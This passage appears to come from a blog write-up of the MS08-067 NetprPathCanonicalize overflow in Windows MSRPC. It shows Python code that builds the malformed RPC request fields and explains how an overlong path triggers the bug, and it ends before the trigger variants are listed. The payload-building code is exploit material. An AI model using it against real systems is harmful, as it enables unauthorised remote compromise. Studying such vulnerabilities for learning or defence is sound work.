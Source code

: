 	path_name += '\x5c\x00'
	
	# Remaining Buffer
	path_name += '\x41' * 74   		   # Remaining RPC Path Buffer
	path_name += '\x00\x00' * 1 	   # RPC Path Trailing Null bytes
	
	# Outbuflen
	outbuf_len  = '\x00\x00' 		  # Padding
	outbuf_len += '\x01\x00\x00\x00'  # Max Buffer Count
	# Prefix
	prefix =  '\x02\x00\x00\x00'	  # Prefix - Max Unicode Count
	prefix += '\x00\x00\x00\x00'	  # Offset
	prefix += '\x02\x00\x00\x00'	  # Prefix - Actual Unicode Count
	prefix += '\x5c\x00\x00\x00'	  # Prefix + Trailing Null Bytes
	# Path Type
	path_type  = '\x01\x00\x00\x00'	  # Pointer to Path Type
	path_type += '\x01\x00'	  		  # Path type and flags
	# Flags
	flags = '\x00\x00'				  # Flags		
{% endhighlight %} 

![What]({{ site.url }}/assets/what.jpg) 

Ok that might not seem easy to digest, but after you look at the code that crytic strings will make alot of sence.  
Essentially, that payload is in the final format that **MSRPC** understands in this case they are **NDR types** and before they are sent the data to be sent needs to be formated that way, it all become clear later.  

The vunerable function signature is as follows:
  
{% highlight python %}

	NET_API_STATUS NetprPathCanonicalize(
     [in, string, unique] SRVSVC_HANDLE ServerName,
     [in, string] WCHAR* PathName,                     <- Vulnerable parameter
     [out, size_is(OutbufLen)] unsigned char* Outbuf,
     [in, range(0,64000)] DWORD OutbufLen,
     [in, string] WCHAR* Prefix,
     [in, out] DWORD* PathType,
     [in] DWORD Flags
     );

 {% endhighlight %} 
 
 The way to trigger the bug is to send it a path that makes the algorithm go beyond the last "\\", and it will do so until he finds a "\\" a copies from their to the end of the string.  
 They are many ways to trigger the error without making it chase its own tail to oblivion here are some of them.  
